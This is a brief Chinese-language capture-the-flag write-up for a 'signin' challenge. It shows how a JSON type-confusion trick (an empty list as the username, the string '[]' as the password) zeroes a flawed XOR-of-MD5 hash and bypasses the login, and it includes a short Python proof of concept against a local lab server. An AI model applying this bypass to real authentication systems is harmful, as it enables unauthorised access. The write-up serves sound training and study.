 - 只做难题
- # signin
	- signin(确信)
	- gethash函数的缺陷
		- 观察发现gethash函数在传入用户名和密码都为`admin`时会输出0
		- 我们只需要让`hashed = gethash(params.get("username"),params.get("password"))`也为0即可
		- 需要计算出`md5(f"{salt}[{username}]{salt}")^md5(f"{salt}[{password}]{salt}")`为0时用户名和密码为多少
		- 其计算时使用了f-string, 输入无论是什么类型都会被转换成字符串
	- 登陆的限制
		- 用户名不能为admin
		- 用户名不能和密码相等
	- 注意到用户名和密码都在一个JSON内，可以为字符串或列表
	- 所以只需要让用户名为空列表，密码为字符串`"[]"`即可获得flag
	- ```python
	  url = "http://localhost:43987/"
	  
	  def encode(s):
	      for _ in range(5):
	          s = enc_dec.base64_encode(s)
	      return s
	  
	  r = base_post(url + "login", json = {
	      "params": encode(json.dumps({
	          "username": [],
	          "password": "[]"
	      }))
	  })
	  print(r.text)
	  ```